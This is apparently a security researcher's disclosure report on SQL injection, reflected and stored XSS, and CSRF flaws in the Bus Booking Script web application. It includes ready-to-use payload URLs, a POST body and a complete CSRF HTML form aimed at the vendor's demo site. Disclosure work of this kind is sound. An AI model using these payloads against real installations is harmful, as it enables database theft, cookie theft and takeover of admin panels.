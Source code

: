 ### Bus Booking Script- the lastest version - SQL Injection/XSS/CSRF

Well,  when I pentest the official demo site of Bus Booking Script, I found some vulnerabilities here.


#### SQL Injection:

Because of the waf, I tried to write a script to get sensitive sql data.
As you can see here, we can obtain the current database user and the mysql version or more sensitive data now!
For example:
```
http://travelbookingscript.com/demo/newbusbooking/admin/view_seatseller.php?sp_id=47 and length(version())<12--+-
http://travelbookingscript.com/demo/newbusbooking/admin/view_member.php?memid=1%20order%20by%2028--+-
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/sqli1.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/sqli2.png)



#### XSS:

Here I found some xss, inclue stored-xss and reflect-xss：

##### Reflect-Xss
```
http://travelbookingscript.com/demo/newbusbooking/results.php?triptype=1&ter_from=123&tag=123&datepicker=08-01-2018123%27%22%3E%3Cimg%20src=x%20onerror=%22console.log(document.cookie)%22%3E&datepicker1=&type=bus
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/xss1.png)

##### Stored-Xss

http://travelbookingscript.com/demo/newbusbooking/admin/new_master.php

POST parameters:
```
flag=1&spname=test4x&spemail=test%40gmail.com'"><img src=x onerror=alert(123)><'"&txtaddress1=test&spcity=test&spmobileno1=1314411331&comm_sp=51&spcmnts=test4x&submitnewcompany=Register+%3E%3E
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/xss2.png)

This stored-xss vulnerability need to be combined with csrf attack.

#### CSRF

POC is here , for example, we can add a xss content to the admin panel:

```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://travelbookingscript.com/demo/newbusbooking/admin/new_master.php" method="POST">
      <input type="hidden" name="flag" value="1" />
      <input type="hidden" name="spname" value="test4x" />
      <input type="hidden" name="spemail" value="test&#64;gmail&#46;com&apos;&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;123&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="txtaddress1" value="test" />
      <input type="hidden" name="spcity" value="test" />
      <input type="hidden" name="spmobileno1" value="1314411331" />
      <input type="hidden" name="comm&#95;sp" value="51" />
      <input type="hidden" name="spcmnts" value="test4x" />
      <input type="hidden" name="submitnewcompany" value="Register&#32;&gt;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/csrf.png)










